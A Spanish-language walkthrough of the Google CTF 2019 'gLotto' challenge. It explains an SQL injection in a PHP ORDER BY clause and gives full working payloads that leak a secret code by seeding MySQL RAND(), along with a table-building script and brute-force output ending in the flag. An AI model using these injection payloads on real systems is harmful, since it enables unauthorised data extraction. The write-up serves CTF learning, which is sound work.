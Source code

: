 # GOOGLE CTF 2019 - gLotto

![](img/gLotto-001.png)

## Introducción

El reto consiste en acertar un código y ganar la loteria. Ademas se nos muestran los resultados de los sorteos de los últimos 4 meses.

El funcionamiento de la aplicación es el siguiente:
- Se genera un código aleatorio de 12 caracteres en la primera visita.
- El código se guarda en la variable de sesión `winner`.
- El usuario introduce un código y si es válido se devuelve la flag.
- Si no es válido, nos muestra cual era el código correcto.

![](img/gLotto-002.png)

## Examinando el código fuente

El reto nos proporciona su [código fuente](gLotto.php) en PHP.

Examinandolo, se observa una vulnerabilidad de Inyección SQL por el uso de la función [*escape_string*](https://www.php.net/manual/es/mysqli.real-escape-string.php) con un parámetro encerrado entre backticks, y no entre comillas simples.

```php
$db->query("SET @lotto = '$winner'");

for ($i = 0; $i < count($tables); $i++)
{
    $order = isset($_GET["order{$i}"]) ? $_GET["order{$i}"] : '';
    if (stripos($order, 'benchmark') !== false) die;
    ${"result$i"} = $db->query("SELECT * FROM {$tables[$i]} " .
        ($order != '' ? "ORDER BY `".$db->escape_string($order)."`" : ""));
    if (!${"result$i"}) die;
}
```

## Inyección en *ORDER BY*

Esta vulnerabilidad nos permite inyectar código SQL después de la instrucción *ORDER BY*, lo que nos limita en el uso de subconsultas con *UNION SELECT*.
Además, tenemos la limitación de que cada vez que visitamos la web se genera un código nuevo, lo que implica que deberemos exfiltrar este código en una única petición.

Por otro lado, existen 4 parámetros de orden distintos, uno para cada tabla, (ordero0, order1, order2 y order3).


## Analizando el código

Como hemos dicho anteriormente, el código consta de 12 caracteres, los cuales se forman a partir de un charset de 36 caracteres formado por números y letras mayusculas. En total existen 4,6e18 posibles códigos.

## Exfiltración

Para realizar la exfiltración, se ha utilizado la función RAND(i), en la que usaremos el código de semilla. Para ello hay que tener en cuenta el tamaño de cada una de las 4 tablas y el número de permutaciones posibles en la ordenación de sus elementos.

```
MARCH -> 8! =  40320
APRIL -> 9! = 362880
MAY   -> 7! =   5040
JUNE  -> 4! =     24
TOTAL ->    = 1.8e15
```
La cantidad de datos exfiltrados en el mejor de los casos no es suficiente para extraer todo el código, sin embargo, al ser posible realizar fuerza bruta a la aplicación, la probabilidad de acertar es suficiente, aproximadamente 1 entre 5000.

Para simplificar la extracción, se divide el código en 4 trozos de la siguiente forma, *4-4-3-1*, 4 caracteres en la primera y segunda tabla, 3 en la tercera, y 1 en la última.

Como no , esto genera colisiones, es decir, existen varios códigos que forman la misma ordenación de la tabla.

Para conocer el funcionamiento de la funcion *RAND* he recreado la base de datos en un entorno local y he realizado las cálculos necesarios de la función RAND, además de poder probar localmente todo el proceso de inyección. [Archivo SQL](gLotto.sql)


## Generar tablas

Con el siguiente código se generan las posibles permutaciones y se obtiene el orden asociado a cada una, este orden se representa con un valor numérico.

```php
$charset = '0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ';

$march = array();
$march['CA5G8VIB6UC9'] = '0';
$march['01VJNN9RHJAC'] = '1';
$march['1WSNL48OLSAJ'] = '2';
$march['UN683EI26G56'] = '3';
$march['YYKCXJKAK3KV'] = '4';
$march['00HE2T21U15H'] = '5';
$march['D5VBHEDB9YGF'] = '6';
$march['I6I8UV5Q64L0'] = '7';

for ($a = 0; $a < $len; $a++) {
for ($b = 0; $b < $len; $b++) {
  $word = $charset[$a].$charset[$b];
  $result = $db->query("SELECT * FROM `march` ORDER BY
    rand((ord(MID('$word',1,1))-47)*44 + (ord(MID('$word',2,1))-47))");
}}

$num = "";
while ($row = $result->fetch_array()) {
  $n = $march[$row[1]];
  $num .= $n;
}
echo "$word - $num\n";
```

## Let's SQLI!

El primer obstaculo es evitar que ordene por la columna `winner`, para ello lo anulamos utilizando `*0`. El siguiente problema es convertir los caracteres a un valor numérico en la semilla de la función *RAND*, de forma simple, cada caracter se convierte en un valor numérico y se multiplica por una potencia de 44, se escoje este valor por ser la distancia entre el caracter `0` y `Z` en la tabla ascii, aunque es posible utilizar cualquier otro.

```
?order0=winner`*0,rand((ord(MID(@lotto,1,1))-47)*85184 + (ord(MID(@lotto,2,1))-47)*1936 + (ord(MID(@lotto,3,1))-47)*44 + (ord(MID(@lotto,4,1))-47))#
&order1=winner`*0,rand((ord(MID(@lotto,5,1))-47)*85184 + (ord(MID(@lotto,6,1))-47)*1936 + (ord(MID(@lotto,7,1))-47)*44 + (ord(MID(@lotto,8,1))-47))#
&order2=winner`*0,rand((ord(MID(@lotto,9,1))-47)*1936 + (ord(MID(@lotto,10,1))-47)*44 + (ord(MID(@lotto,11,1))-47))#
&order3=winner`*0,rand((ord(MID(@lotto,12,1))-47))#
```

Ahora simplemente debemos comparar el resultado obtenido con las tablas generadas anteriormente para conocer los posibles candidatos.

Hacemos una prueba en el entorno local con el código, `1YS7PRY1E7S0`. Observamos como los trozos `1YS7` `PRY1` `E7S` `0` aparecen como posibles candidatos.

```
-- march: 21 --
 1YS7, 33J1, 48R2, 51CJ, 6MHM, 8Z8F, CXQ2, DGUG, EMLA, EY9H, FRTB,
 MTVO, NZMI, OFB3, P3UJ, P5FH, RHL9, V6JU, VFSB, W5WW, YBGP

-- april: 10 --
 4P75, 8D18, CLPJ, GEWU, HKNO, LYQR, OL42, PRY1, Z3Z9, ZYJ5

-- may: 8 --
 635, CDB, E7S, F3B, JUK, XW3, ZPM, ZQ1

-- june: 2 --
 0, 4

```

## Solución

El ultimo paso es automatizar el proceso en un [script](gLotto-solve.py) y ejecutarlo en bucle hasta encontrar un código válido.

```
ZIOKPJSVXMIC
You didn't win :(<br>The winning ticket was Q56J5UT2JKT3
ZZRKNVZKUUGW
You didn't win :(<br>The winning ticket was 43CFNVZK6UJW
YYWQRHNRZ4S1
You won! CTF{3c2ca0d10a5d4bf44bc716d669e074b2}
```
